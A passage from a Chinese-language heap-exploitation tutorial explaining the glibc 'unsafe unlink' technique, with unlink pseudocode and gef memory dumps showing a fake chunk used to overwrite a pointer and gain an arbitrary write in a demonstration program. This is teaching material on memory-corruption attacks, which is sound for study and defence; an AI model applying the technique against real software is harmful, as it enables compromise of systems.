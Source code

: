接下来就是释放掉 chunk1，这会触发 fake chunk 的 unlink 并覆盖 `chunk0_ptr` 的值。unlink 操作是这样进行的：
```c
FD = P->fd;
BK = P->bk;
FD->bk = BK
BK->fd = FD
```
再说简单一点，由于这时候 P->fd->bk 和 P->bk->fd 都指向 P，所以最后的结果为：
```
chunk0_ptr = P = P->fd
```
成功地修改了 chunk0_ptr，这时 `chunk0_ptr` 和 `chunk0_ptr[3]` 实际上就是同一东西：
```
gef➤  x/40gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000091  <-- chunk 0
0x602010:	0x0000000000000000	0x0000000000020ff1  <-- fake chunk P
0x602020:	0x0000000000601058	0x0000000000601060      <-- fd, bk pointer
0x602030:	0x0000000000000000	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000000
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000000000
0x602070:	0x0000000000000000	0x0000000000000000
0x602080:	0x0000000000000000	0x0000000000000000
0x602090:	0x0000000000000080	0x0000000000000090  <-- chunk 1 [be freed]
0x6020a0:	0x0000000000000000	0x0000000000000000
0x6020b0:	0x0000000000000000	0x0000000000000000
0x6020c0:	0x0000000000000000	0x0000000000000000
0x6020d0:	0x0000000000000000	0x0000000000000000
0x6020e0:	0x0000000000000000	0x0000000000000000
0x6020f0:	0x0000000000000000	0x0000000000000000
0x602100:	0x0000000000000000	0x0000000000000000
0x602110:	0x0000000000000000	0x0000000000000000
0x602120:	0x0000000000000000	0x0000000000020ee1  <-- top chunk
0x602130:	0x0000000000000000	0x0000000000000000
gef➤  x/5gx 0x601058
0x601058:	0x0000000000000000	0x00007ffff7dd2540  <-- fake chunk
0x601068:	0x0000000000000000	0x0000000000601058      <-- bk pointer
0x601078:	0x0000000000000000
gef➤  x/5gx 0x601060
0x601060:	0x00007ffff7dd2540	0x0000000000000000  <-- fake chunk
0x601070:	0x0000000000601058	0x0000000000000000      <-- fd pointer
0x601080:	0x0000000000000000
gef➤  x/gx chunk0_ptr 
0x601058:	0x0000000000000000
gef➤  x/gx chunk0_ptr[3]
0x601058:	0x0000000000000000
```
所以，修改 `chunk0_ptr[3]` 就等于修改 `chunk0_ptr`：
```
gef➤  x/5gx 0x601058
0x601058:	0x0000000000000000	0x00007ffff7dd2540
0x601068:	0x0000000000000000	0x00007fffffffdc70  <-- chunk0_ptr[3]
0x601078:	0x0000000000000000
gef➤  x/gx chunk0_ptr 
0x7fffffffdc70:	0x4141414141414141
```

